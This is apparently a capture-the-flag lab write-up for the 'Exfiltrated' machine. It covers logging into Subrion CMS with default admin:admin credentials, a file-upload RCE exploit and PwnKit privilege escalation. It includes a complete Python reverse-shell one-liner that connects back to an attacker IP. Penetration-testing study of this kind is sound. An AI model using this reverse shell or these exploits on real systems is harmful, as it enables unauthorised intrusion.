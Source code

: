# PG: Exfiltrated

## Reconnaissance

Connecting to the http server via the IP redirects to `exfiltrated.offsec` so I
added it to my `/etc/hosts` file.

The Wappalyzer Firefox extension identified that the server was running Subrion, 
an open source CMS.

Testing common credentials I was able to login to the admin interface located at 
`/panel/` with credentials `admin:admin`.

![Successful login as admin](screenshots/2022-11-15_15-22.png)

## Initial access

I Found that the installed version of Subrion was vulnerable to an authenticated 
abritrary file upload vulnerability that leads to RCE. Searching exploit-db I
found this [exploit](https://vulners.com/exploitdb/EDB-ID:49876). After an
inspection of the source code I ran it to obtain a non interactive shell as the
user www-data.

![Webshell as www-data](screenshots/2022-11-15_15-24.png)

I upgraded to an interactive shell with the following python 3 reverse shell and
catching it with a netcat listener:

```
export RHOST="192.168.49.147";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![Catching reverse shell](screenshots/2022-11-15_15-29.png)

## Privilege Escalation

Linpeas found that the system was vulnerable to CVE-2021-4034 aka PwnKit. I used
this [exploit](https://github.com/ly4k/PwnKit) to obtain a root shell.

![Proof of command execution as root](screenshots/root_proof)
